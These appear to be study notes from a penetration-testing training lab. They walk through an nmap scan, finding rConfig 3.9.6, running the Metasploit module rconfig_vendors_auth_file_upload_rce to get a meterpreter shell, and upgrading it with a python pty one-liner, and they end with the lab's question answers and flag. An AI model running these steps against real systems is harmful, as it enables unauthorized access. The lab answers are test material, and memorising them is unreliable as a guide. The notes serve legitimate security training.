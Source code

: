 ## Common Considerations
When considering how we will establish a shell session on a Unix/Linux system, we will benefit from considering the following:
- What distribution of Linux is the system running?
- What shell & programming languages exist on the system?
- What function is the system serving for the network environment it is on?
- What application is the system hosting?
- Are there any known vulnerabilities?

## Gaining a Shell Through Attacking a Vulnerable Application
#### Enumerate the Host
```shell
$ nmap -sC -sV 10.129.201.101

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 2.0.8 or later
22/tcp   open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:b2:23:75:87:57:b9:d2:dc:88:b9:f4:c1:9e:36:2a (RSA)
|   256 c4:88:20:b0:22:2b:66:d0:8e:9d:2f:e5:dd:32:71:b1 (ECDSA)
|_  256 e3:2a:ec:f0:e4:12:fc:da:cf:76:d5:43:17:30:23:27 (ED25519)
80/tcp   open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Did not follow redirect to https://10.129.201.101/
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
443/tcp  open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2021-09-24T19:29:26
|_Not valid after:  2022-09-24T19:29:26
|_ssl-date: TLS randomness does not represent time
3306/tcp open  mysql    MySQL (unauthorized)
```

Considering we can see the system is listening on ports 80 (`HTTP`), 443 (`HTTPS`), 3306 (`MySQL`), and 21 (`FTP`), it may be safe to assume that this is a web server hosting a web application. We can also see some version numbers revealed associated with the web stack (`Apache 2.4.6` and `PHP 7.2.34` ) and the distribution of Linux running on the system (`CentOS`).

We should consider trying to access the IP trhough a Browser:

#### rConfig Management Tool
![[Pasted image 20250927121504.png]]

Here we discover a network configuration management tool called [rConfig](https://www.rconfig.com/). This application is used by network & system administrators to automate the process of configuring network appliances. As pentesters, finding a vulnerability in this application would be considered a very critical discovery.

## Discovering a Vulnerability in rConfig
Take a close look at the bottom of the web login page, and we can see the rConfig version number (`3.9.6`). We should use this information to start looking for any `CVEs`, `publicly available exploits`, and `proof of concepts` (`PoCs`).

![[Pasted image 20250927121556.png]]

We can also use Metasploit's search functionality to see if any exploit modules can get us a shell session on the target.
#### Search For an Exploit Module

```shell-session
msf6 > search rconfig
```

There may be useful exploit modules that are not installed on our system or just aren't showing up via search. In these cases, it's good to know that Rapid 7 keeps code for exploit modules in their [repos on github](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits). We could do an even more specific search using a search engine: `rConfig 3.9.6 exploit metasploit github`
This search can point us to the source code for an exploit module called `rconfig_vendors_auth_file_upload_rce.rb`.

```shell-session
$ locate exploits

/opt/metasploit/modules/exploits 

Here are located exploit and we can add exploits there from Rapid7 github repo
```

We can copy the code into a file and save it in `/usr/share/metasploit-framework/modules/exploits/linux/http` similar to where they are storing the code in the GitHub repo

## Using the rConfig Exploit and Gaining a Shell

```shell
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

Set the right options
#### Execute the Exploit

```shell
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

meterpreter >
```

## Spawning a TTY Shell with Python

```shell
meterpreter > shell

whoami
apache

python -c 'import pty; pty.spawn("/bin/sh")'
or
python3 -c 'import pty; pty.spawn("/bin/sh")'

sh-4.2$ whoami
apache
```


### Questions

1. What language is the payload written in that gets uploaded when executing rconfig_vendors_auth_file_upload_rce?
	 `php`

2.   Exploit the target and find the hostname of the router in the devicedetails directory at the root of the file system.
	Same exploit as above with Arbitrary File Upload on rConfig. 
	Flag: `edgerouter-isp`


